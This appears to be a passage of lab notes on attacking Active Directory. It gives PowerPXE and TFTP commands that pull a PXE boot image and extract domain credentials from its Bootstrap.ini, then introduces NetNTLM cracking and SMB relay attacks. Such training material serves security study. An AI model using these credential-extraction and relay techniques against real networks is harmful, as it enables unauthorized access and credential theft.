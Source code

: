 SSH Command Prompt

```
PS C:\Users\THM\Documents\am0> Get-FindCredentials -WimFile pxeboot.wim
>> Open pxeboot.wim
>>>> Finding Bootstrap.ini
>>>> >>>> DeployRoot = \\THMMDT\MTDBuildLab$
>>>> >>>> UserID = <account>
>>>> >>>> UserDomain = ZA
>>>> >>>> UserPassword = <password>
```

As you can see, powerpxe was able to recover the AD credentials. We now have another set of AD credentials that we can use!

```bash
tftp -i <THMMDT IP> GET "\Tmp\x64{39...28}.bcd" conf.bcd

PS C:\Users\THM\Documents\am0> Import-Module .\PowerPXE.ps1
PS C:\Users\THM\Documents\am0> $BCDFile = "conf.bcd"
PS C:\Users\THM\Documents\am0> Get-WimFile -bcdFile $BCDFile
>> Parse the BCD file: conf.bcd
>>>> Identify wim file : <PXE Boot Image Location>
<PXE Boot Image Location>
```

# ______________________________________________________________________

# [=] Authentication Relays

### Details

- Continuing with attacks that can be staged from our rogue device, we will now look at attacks against broader network authentication protocols. In Windows networks, there are a significant amount of services talking to each other, allowing users to make use of the services provided by the network.
- These services have to use built-in authentication methods to verify the identity of incoming connections. In Task 2, we explored NTLM Authentication used on a web application. In this task, we will dive a bit deeper to look at how this authentication looks from the network's perspective. However, for this task, we will focus on NetNTLM authentication used by SMB.Server Message Block
- The Server Message Block (SMB) protocol allows clients (like workstations) to communicate with a server (like a file share). In networks that use Microsoft AD, SMB governs everything from inter-network file-sharing to remote administration. Even the "out of paper" alert your computer receives when you try to print a document is the work of the SMB protocol.
- However, the security of earlier versions of the SMB protocol was deemed insufficient. Several vulnerabilities and exploits 
were discovered that could be leveraged to recover credentials or even gain code execution on devices. Although some of these vulnerabilities were resolved in newer versions of the protocol, often organisations do not enforce the use of more recent versions since legacy systems do not support them. We will be looking at two different exploits for NetNTLM 
authentication with SMB:
    - Since the NTLM Challenges can be intercepted, we can use offline
    cracking techniques to recover the password associated
    with the NTLM Challenge. However, this cracking process is significantly slower than cracking NTLM hashes directly.
    - We can use
    our rogue device to stage a man in the middle attack, relaying the SMB
    authentication between the client and server, which will provide us with an active authenticated session and access to the target server.
